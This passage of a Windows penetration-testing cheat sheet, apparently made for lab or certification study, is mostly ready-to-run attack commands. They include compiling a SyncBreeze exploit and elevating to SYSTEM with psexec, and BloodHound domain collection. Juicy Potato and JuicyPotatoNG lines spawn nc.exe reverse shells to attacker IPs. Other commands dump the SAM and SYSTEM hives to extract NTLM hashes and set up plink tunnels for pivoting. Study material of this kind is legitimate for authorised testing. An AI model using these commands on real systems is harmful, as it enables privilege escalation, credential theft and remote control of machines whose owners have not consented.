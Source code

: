 ```powershell
--------------------Exploit Compiling----------------------
i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32
----------------------Admin to SYSTEM----------------------
psexec.exe -i -s -d -accepteula cmd
```

### BloodHound & Query

```
bloodhound-python -u [username] -p [password[ -d blackfield.local -ns 10.10.10.192 -c DcOnly
MATCH p=(u {owned: true})-[r1]->(n) WHERE r1.isacl=true RETURN p
```

### Juicy Potato

```cmd
potato86.exe -l 1337 -c "{659cdea7-489e-11d9-a9cd-000d56965251}" -p c:\windows\system32\cmd.exe -a "/c c:\nc.exe -e cmd.exe 192.168.119.160 4321" -t *
# PotatoNG https://github.com/antonioCoco/JuicyPotatoNG
JuicyPotatoNG.exe -t * -p "c:\windows\system32\cmd.exe" -a "nc.exe 192.168.49.131 21 -e c:\windows\system32\cmd.exe"
```

### SAM (Security Account Manager)

A file that store Windows user credential. It can only be accessed when the Windows OS is not booted up. (Eg. from another OS)\
Passwords are LM & NTLM hashed\\

```cmd
Default file location: 
C:\Windows\System32\config\SAM
C:\Windows\System32\config\SYSTEM

reg save HKLM\SAM c:\SAM
reg save HKLM\System c:\System

Dumping hashes:
samdump2 SYSTEM SAM
pwdump.py SYSTEM SAM    # For Windows 10

Format of Hashes:
[USERNAME]:[RID]:[LMHash]:[NTLMHash]:::   # RID = Relative Identifier
```

Ref: https://techgenix.com/how-cracked-windows-password-part2/

### Pivoting

```
----------PLINK.EXE----------
cmd.exe /c echo y | plink.exe -ssh -l [KALI_USERNAME] -pw [KALI_PASSWORD] -R [KALI_IP]:[KALI_PORT]:127.0.0.1:3306 [KALI_IP]
# C:\Tools\port_redirection_and_tunneling> cmd.exe /c echo y | plink.exe -ssh -l kali -pw ilak -R 10.11.0.4:1234:127.0.0.1:3306 10.11.0.4
# kali@kali:~$ sudo nmap -sS -sV 127.0.0.1 -p 1234
# Starting Nmap 7.60 ( https://nmap.org ) at 2019-04-20 05:00 EEST
# Nmap scan report for localhost (127.0.0.1)
# Host is up (0.00026s latency).
# PORT STATE SERVICE VERSION
# 1234/tcp open mysql MySQL 5.5.5-10.1.31-MariaDB
# Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

